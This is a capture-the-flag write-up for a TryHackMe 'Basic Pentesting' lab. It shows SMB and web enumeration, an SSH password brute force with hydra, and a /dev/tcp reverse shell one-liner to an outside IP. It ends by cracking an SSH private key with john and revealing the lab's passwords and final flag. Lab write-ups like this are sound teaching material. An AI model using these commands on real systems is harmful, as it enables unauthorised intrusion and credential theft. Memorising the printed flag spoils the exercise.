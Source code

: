 # Basic Pentesting
`url = https://tryhackme.com/room/basicpentestingjt`
`date = NA`

---
## Enumeration

1. **Network Enumeration**

* We see that ports `80` & `22` are open, which means that there is a website that is running, which can be further enumerated. As well as SSH which can be used to connect to the machine later on.

* Other than these regular ports, we also see ports `445` & `139` which are SMB ports. These can be enumerated later on.

2. **Directory Bruteforcing**
```bash
/development
/index.html
```
* These are the two directories that are available on the website. There is no `robots.txt` that can be seen on the website.

* In the `/development` section we can see two files:
`dev.txt` > It talks about how SMB has been configured. I can also notice that there are two users with initials 'J' & 'K' who are talking to each other through notes.

`j.txt` > Is a message for 'J' addressing a weak password issue. 'K' tells 'J' how their `/etc/shadow` entry can easily be cracked.

3. **SMB Enumeration**

* For this, we use a tool called `enum4linux` which will allow us to enumerate the SMB service on this machine.
```bash
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```
* We get the following users as a result of the SMB enumeration.
---

## Exploitation

* With all of this, inference can be drawn that the user 'Jan' has a weak password & if a rev-shell can be obtained, we can privesc.

* We can first use `hydra` to bruteforce port `22` with the `rockyou.txt` word list:
```bash
hydra -l 'jan' -P /usr/share/wordlists/rockyou.txt ssh://$IP -t 10
```

* We get the password - `armando`.
```bash
ssh jan@$IP
```
```bash
sh -i >& /dev/tcp/10.6.36.128/1235 0>&1 # reverse shell from revshells
```

---

## Post Exploitation

**PrivEsc**
Now the only thing left, is to go to `/home/jan/.ssh` directory & find the `id_rsa` key. Download this file to the attack machine & process it:

```bash
chmod 600 id_rsa
# also make sure that id_rsa has a new line in the end.
```

```bash
ssh2john id_rsa > forJohn
john --wordlist=/usr/share/wordlists/rockyou.txt forJohn
# The cracked password is - `beeswax`
```

```bash
ssh -i id_rsa kay@$IP
# enter psw - beeswax
```
The final flag can be found in `/home/kay/pass.bak` which can be catted out `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`.


fin.